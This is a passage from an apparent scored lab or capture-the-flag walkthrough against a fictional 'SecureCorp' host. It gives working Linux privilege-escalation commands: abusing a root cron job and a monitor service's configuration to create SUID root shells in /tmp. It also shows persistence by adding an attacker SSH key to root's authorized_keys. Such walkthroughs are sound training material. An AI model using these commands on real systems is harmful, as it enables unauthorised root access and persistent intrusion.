 ### 5.2 Cron Job Manipulation

**Discovery**:
```bash
# Check cron jobs
crontab -l
cat /etc/crontab

# Key finding: */5 * * * * root /usr/local/bin/system_cleanup.sh
cat /usr/local/bin/system_cleanup.sh
```

**Exploitation**:
```bash
# Create malicious task file
mkdir -p /tmp/cleanup_tasks
echo "cleanup:/bin/bash -c 'cp /bin/bash /tmp/rootshell; chmod 4755 /tmp/rootshell'" > /tmp/cleanup_tasks/tasks.txt

# Wait for cron to execute (up to 5 minutes)
# Then use the SUID shell
/tmp/rootshell -p
```

### 5.3 Service Exploitation

**Monitor Service Vulnerability**:
```bash
# Check running services
systemctl list-units --type=service | grep monitor
systemctl status monitor-service

# Exploit configuration file
echo 'enable_commands=true' > /etc/monitor/config.conf
echo '/bin/bash -c "cp /bin/bash /tmp/service_shell; chmod 4755 /tmp/service_shell"' > /tmp/monitor_commands

# Wait for service to process
/tmp/service_shell -p
```

---

## 🎯 Phase 6: Persistence & Data Exfiltration (25 points)

### 6.1 Establish Persistence

**SSH Key Installation**:
```bash
# Generate SSH key pair on attacker machine
ssh-keygen -t rsa -b 4096 -f ~/.ssh/securecorp_key

# Add public key to target
mkdir -p /root/.ssh
echo "ATTACKER_PUBLIC_KEY" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
chmod 700 /root/.ssh
```
